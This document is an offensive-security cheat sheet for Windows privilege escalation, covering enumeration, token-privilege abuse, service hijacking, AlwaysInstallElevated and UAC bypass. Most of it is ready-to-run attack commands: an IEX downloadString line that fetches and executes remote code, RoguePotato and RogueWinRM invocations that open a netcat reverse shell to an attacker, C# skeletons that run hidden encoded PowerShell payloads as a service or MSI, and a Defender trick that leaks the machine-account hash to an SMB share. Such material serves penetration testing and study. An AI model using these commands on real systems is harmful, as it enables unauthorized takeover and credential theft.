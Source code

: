 # Windows

### Enumeration

#### PrivEscCheck

[https://raw.githubusercontent.com/itm4n/PrivescCheck/master/Invoke-PrivescCheck.ps1](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/Invoke-PrivescCheck.ps1)

```text
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck
```

or:

```text
powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object result.txt
```

#### PowerUp

```bash
IEX(New-Object Net.WebClient).downloadString('<url>/PowerUp.ps1') ;Invoke-AllChecks
```

#### Unquoted Service Paths

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Common CVEs

#### CVE-2019-1388: Windows Privilege Escalation Through UAC

[https://www.youtube.com/watch?v=3BQKpPNlTSo](https://www.youtube.com/watch?v=3BQKpPNlTSo)

Download & start hhupd.exe, get it to start a iexplore.exe in the uac dialog and start cmd.exe in the browsers save file dialog

### Privilege Abuse

If privileges are disabled you can use [AdjustTokenPrivileges](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges). All these privileged are configured via "secpol.msc -&gt; Local Policies -&gt; User Rights Assignment".

#### SeBackupPrivilege/SeRestorePrivilege

These privileges allow unrestricted read/write access to every file on the system. They have to be activated first though for which you can use this [ps-script](https://github.com/giuliano108/SeBackupPrivilege):

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege <source> <target>
```

#### SeImpersonatePrivilege

This privilege allows to impersonate the user connecting. This connection can happen via HTTP NTLM Auth, SMB or Named Pipes.

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

This was patched in August 2020 \(spooler won't connect to your named pipe anymore, the underlying technique still works though\).

[RoguePotato](https://github.com/antonioCoco/RoguePotato)

This requires that the victim server can reach your box on port 135. You run the OxidResolver and use socat to port your port 135 to the OxidResolvers port. Then you can the exploit:

```bash
# on attacker box
socat tcp-listen:135,reuseaddr,fork tcp:<oxidip>:9999
# on target
RoguePotato.exe -r <attackerip> -e "c:\programdata\nc.exe -e cmd.exe <ip> <port>" -l 9999
```

[RogueWinrm](https://github.com/antonioCoco/RogueWinRM)

Useable if WinRM is not already is not running \(Unpatched\). Usage \(don't quote path\):

```text
RogueWinRM.exe -p C:\windows\temp\nc64.exe -a "<ip> <port> -e cmd"
```

### Bypassing UAC

There are lots of different ones out there, a good collection is [UACME](https://github.com/hfiref0x/UACME) but it is getting detected very easily. In Covenant you can do:

```text
BypassUACCommand cmd.exe "/c powershell -enc <cmd>"
```

### Service Abuse

Check Permissions on a service:

```text
PowerShell 'service name' | Get-ServiceAcl | Select-Object -ExpandProperty Access
```

For a payload that behaves like a real service use the following skeleton code \(create a new c\# console application\):

```csharp
protected override void OnStart(string[] args)
{
  var si = new ProcessStartInfo
  {
    FileName = @"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",
    Arguments = @"-Sta -Nop -Window Hidden -EncodedCommand <cmd>"
  };
          
  var proc = new Process
  {
    StartInfo = si
  };
        
  var t = new Thread(() =>
  {
    proc.Start();
    proc.WaitForExit();
    proc.Dispose();
  });

  t.Start();
}
```

Finally modify & restart the service: 

```text
sc config "service name" binPath= "c:\temp\x.exe"
sc qc "service name"
sc stop "service name"
sc start "service name"
```

### Always Install Elevated

Create a MSI Installer in Visual Studio. Skeleton:

```csharp
using System.Diagnostics;

namespace Service
{
    class Program
    {
        static void Main(string[] args)
        {
            var si = new ProcessStartInfo
            {
                FileName = @"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",
                Arguments = @"-Sta -Nop -Window Hidden -EncodedCommand <cmd>"
            };
            
            var proc = new Process
            {
                StartInfo = si
            };
            
            proc.Start();
            proc.WaitForExit();
            proc.Dispose();
        }
    }
}
```

Set output type to WindowsApplication, add a new project to the solution \(of type SetupWizard\). Make sure it includes "primary output from &lt;project&gt;". Modify settings as you need. To make sure it gets installed right-click on the installer project: View-&gt;CustomActions. Then add a custom action to install that containts the primary output from before.

Finally run:

```text
msiexec /i <filename> /qn
```

### Restoring Service Privileges

{% embed url="https://github.com/itm4n/FullPowers" %}

### Stealing Machine Account Hash from a Low Privileged Shell

#### Via Defender

Run Windows Defender vs. SMB share to get the machine account hash:

```text
C:\progra~1\Window~1\Mpcmdrun.exe -Scan -ScanType 3 -File '\\<ip>\public\file'
```

This hash can be cracked via crack.sh or if the target is a DC, we can pth to secretsdump \(requires NT hash support \(deprecated\)\).

### Tools

* [PrivescCheck](https://github.com/itm4n/PrivescCheck.git)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)
* [SharpUp](https://github.com/GhostPack/SharpUp)
* [Watson](https://github.com/rasta-mouse/Watson)
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

